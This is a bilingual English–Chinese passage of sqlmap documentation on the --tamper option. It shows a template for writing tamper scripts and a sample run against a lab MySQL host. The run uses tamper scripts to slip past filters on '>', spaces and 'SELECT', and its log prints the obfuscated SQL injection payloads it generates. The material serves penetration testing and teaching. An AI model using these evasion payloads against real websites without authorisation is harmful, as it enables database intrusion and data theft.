 ```
To take advantage of this option, provide sqlmap with a comma-separated list of tamper scripts and this will process the payload and return it transformed. You can define your own tamper scripts, use sqlmap ones from the `tamper/` folder or edit them as long as you concatenate them comma-separated as value of the option `--tamper` (e.g. `--tamper="between,randomcase"`). 	
sqlmap里可以利用这个选项来运行各种脚本来对payload进行各种各样的改造(多个脚本的话中间用,号隔开)		
当然你也可以用自己写的脚本 脚本位置就在`tamper/`目录下 	
编写脚本的格式如下		

The format of a valid tamper script is as follows:
	
	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ {.python}
	# Needed imports
	from lib.core.enums import PRIORITY

	# Define which is the order of application of tamper scripts against
	# the payload
	__priority__ = PRIORITY.NORMAL

	def tamper(payload):
    	'''
    	Description of your tamper script
    	'''

    	retVal = payload

	# your code to tamper the original payload

    # return the tampered payload
    	return retVal
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 

You can check valid and usable tamper scripts in the `tamper/` directory.		
    `tamper/`目录下面有着针对各种数据的脚本		
下面这个就是针对MySQL数据库中`>` 空格键 以及`SELECT`被禁止的情况下如何进行绕过

Example against a MySQL target assuming that `>` character, spaces and capital `SELECT` string are banned:
	
	```
	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
	tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
	
	[hh:mm:03] [DEBUG] cleaning up configuration parameters
	[hh:mm:03] [INFO] loading tamper script 'between'
	[hh:mm:03] [INFO] loading tamper script 'randomcase'
	[hh:mm:03] [INFO] loading tamper script 'space2comment'
	[...]
	[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
	[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
	[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
	[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
	[...]
	[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
	'
	[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
	AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
	**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
	rmation_schema.tables/**/group/**/bY/**/x)a)
	[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
	 HAVING clause' injectable 
	[...]
	```
```